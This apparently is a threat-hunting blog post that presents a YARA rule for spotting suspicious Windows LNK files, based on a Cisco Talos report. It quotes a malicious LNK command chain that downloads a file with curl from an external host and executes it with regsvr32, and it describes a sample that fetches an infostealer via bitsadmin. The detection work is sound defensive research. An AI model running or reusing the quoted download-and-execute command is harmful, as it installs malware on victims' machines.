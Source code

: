 # Day 8 - Suspicious LNK Files

The inspiration for todays yara rule comes from Cisco Talos's newest blog post: [Following the LNK metadata trail](https://blog.talosintelligence.com/following-the-lnk-metadata-trail/). I started by reviewing over the LNK files included in their [IOCs](https://github.com/Cisco-Talos/IOCs/blob/main/2023/01/following-the-lnk-metadata-trail.txt)

I noticed a few of the LNK files mentioned use `&&` quite a bit:
```
/q /c echo 'SGz' && echo "TYEq" && MD "%HOMEPATH%\bG" && echo "Nm" && ping ExCt.com && echo "rcF" && curl.exe -o %HOMEPATH%\bG\J10M.VI.WYYK https://takeone[.]tech/8NMlHT/EWw.png && regsvr32 "%HOMEPATH%\bG\J10M.VI.WYYK"
```

# Yara Rule

Here's the Yara rule that I created for detecting suspicious LNK files:

```
rule sus_lnk_files {
  meta:
    author = "Colin Cowie"
    description = "Yara rule to detect suspicious .LNK files"
    reference = "https://github.com/Cisco-Talos/IOCs/blob/main/2023/01/following-the-lnk-metadata-trail.txt"
  strings:
    $lnk_header = { 4C 00 00 00 }
    $andand = " && " ascii wide
  condition:  
    $lnk_header at 0
    and #andand > 2
    and filesize < 5KB
}
```

# Results

At first I did not include `ascii wide` in the yara rule for the string ` $andand = " && "`. After making that change I got great results instead of none! 

Here's one intresting finding:

- Filename: `output.lnk`
- SHA1: `24fec293033b5c7103b1c1031394043943497459`
- VT Upload date: *2023-01-07 13:27:41 UTC*

Functionality:
1. uses `bitsadmin /transfer` to download .bat script from discord CDN
2. .bat script downloads `payload.exe` (InfoStealer)

Payload:
- SHA1: [8e55fb63589464ca0803e1eb5b8b80572deec3dd](https://www.virustotal.com/gui/file/676f902e76b713e474b22fd18aa504ef8436df9adedd5b29a63c867d09738636/details)

# References
- https://blog.talosintelligence.com/following-the-lnk-metadata-trail/
- https://github.com/Cisco-Talos/IOCs/blob/main/2023/01/following-the-lnk-metadata-trail.txt
